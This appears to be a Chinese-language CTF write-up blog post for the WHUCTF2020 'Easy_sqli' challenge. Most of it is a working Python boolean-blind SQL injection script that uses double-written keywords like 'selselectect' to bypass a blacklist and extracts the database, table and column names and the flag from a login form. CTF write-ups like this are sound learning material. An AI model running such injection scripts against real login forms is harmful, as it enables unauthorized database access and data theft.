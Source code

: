 ```yaml
---
title: WHUCTF2020-Easy_sqli
author: Troy3e
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg
authorLink: 
authorAbout: 
authorDesc: 
categories: 技术
comments: true
date: 2020-05-30 10:46:01
tags: CTF
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1056414.jpg
---
```

一、Easy_sqli
一直不会写脚本，正好借这道题学习一下如何写脚本
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200605115318.png)
底下会显示sql语句，但是不会报错。简单测试发现该题还进行了黑名单过滤，可采用双写方式绕过，如selselectect。
采用布尔盲注，利用ascii(substr())组合来逐位爆破数据库、表名、列名以及字段。

import requests
url = 'http://218.197.154.9:10011/login.php#'

pwd='ssss'
username=''

#database name
def dabasename():
    database=''
    for a in range(12):
        # print(database)
        for i in range(128,0,-1):
            # print(chr(101))
            username="admin' and "+"ascii(substr(database(),{},1))<".format(len(database)+1)+str(i)+"#"
            # print(username)
            data={'user':username,'pass':pwd}

            r= requests.post(url,data)
            if 'success' not in r.text:
                database+=chr(i)
                print('database ==> ',database)
                break
#print(r.text)
database='eazy_sql'


def table_name():
    table_name_list=[]
    for a in range(5):
        table_name=''    
        for b in range(30):

            ori = len(table_name)
            for i in range(128,0,-1):
                # print(chr(101))
                username="admin' and "+"ascii(substr((selselectect table_name frfromom infoorrmation_schema.tables whwhereere table_schema='easy_sql1' limit {},1),{},1))<".format(len(table_name_list),len(table_name)+1)+str(i)+"#"
                #print(username)
                data={'user':username,'pass':pwd}

                r= requests.post(url,data)
                if 'success' not in r.text:
                    table_name+=chr(i)
                    
                    print('table_name ==> ',table_name)
                    #print(r.text)
                    break
                # if len(table_name)==ori:
                #     break        
        table_name_list.append(table_name)
    print(table_name_list)

def column_name():
    col_name_list=[]
    for a in range(5):
        col_name='f111114g'    
        for b in range(30):

            ori = len(col_name)
            for i in range(128,0,-1):
                # print(chr(101))
                username="admin' and "+"ascii(substr((selselectect column_name frfromom infoorrmation_schema.columns whwhereere table_name='f1ag_y0u_wi1l_n3ver_kn0w' limit {},1),{},1))<".format(len(col_name_list),len(col_name)+1)+str(i)+"#"
                #print(username)
                data={'user':username,'pass':pwd}

                r= requests.post(url,data)
                if 'success' not in r.text:
                    col_name+=chr(i)
                    
                    print('col_name ==> ',col_name)
                    #print(r.text)
                    break
                # if len(col_name)==ori:
                #     break        
        col_name_list.append(col_name)
    print(col_name_list)


def flag():
    col_name='f111114g'
    flag=''
    table_name='f1ag_y0u_wi1l_n3ver_kn0w'
    for b in range(30):

        ori = len(flag)
        for i in range(128,0,-1):
            # print(chr(101))
            username="admin' and "+"ascii(substr((selselectect {} frfromom {} limit 0,1),{},1))<".format(col_name,table_name,len(flag)+1)+str(i)+"#"
            #print(username)
            data={'user':username,'pass':pwd}

            r= requests.post(url,data)
            if 'success' not in r.text:
                flag+=chr(i)
                
                print('flag ==> ',flag)
                #print(r.text)
                break
            # if len(col_name)==ori:
            #     break        
    print(flag)



#dabasename()
#table_name()
#column_name()
flag()



下次遇到要写脚本的题会尝试去写一下


参考链接：https://blog.csdn.net/weixin_43826280/article/details/106407407

